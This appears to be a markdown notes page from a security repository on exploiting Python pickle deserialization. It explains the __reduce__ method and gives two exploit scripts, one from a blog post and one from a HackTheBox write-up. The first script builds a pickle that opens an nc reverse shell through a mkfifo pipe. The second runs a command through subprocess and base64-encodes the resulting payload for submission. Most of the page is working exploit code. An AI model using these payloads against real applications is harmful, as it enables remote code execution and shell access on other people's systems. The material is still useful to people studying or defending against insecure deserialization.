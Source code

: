 # more technologies will be added soon !

### python pickle

### `__reduce__`

- In Python, `__reduce__` is a special method that allows you to customize the process of object serialization and deserialization using the `pickle` module. 
- When an object is pickled, the `__reduce__` method is called to provide a custom way to represent the object's state as a tuple.
- The `__reduce__` method should return a tuple that contains:

1. A callable (usually a class or a function) that will be used to reconstruct the object during unpickling.
2. A tuple of arguments to be passed to the callable when reconstructing the object.


### Exploit example [source](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))

```

## another Example

- exploit for this object 
```
(dp0
S'serum'
p1
ccopy_reg
_reconstructor
p2
(c__main__
anti_pickle_serum
p3
c__builtin__
object
p4
Ntp5
Rp6
s.
```

- this exploit [source](https://0x00sec.org/t/pickle-insecure-deserialization-hackthebox-baby-website-rick/27130)
```python
#!/usr/bin/env python
import pickle
import pickletools
import base64
import os
import subprocess

class anti_pickle_serum(object):
	def __reduce__(self):
		cmd = ['whoami']
		#return os.system, (cmd,)
		return subprocess.check_output, (cmd,)

exploit_obj = anti_pickle_serum()
raw_pickle = pickle.dumps({"serum" : exploit_obj}, protocol=0)

optimed_pickle = pickletools.optimize(raw_pickle)
pickletools.dis(optimed_pickle)

payload = base64.b64encode(raw_pickle)

print(payload)

```

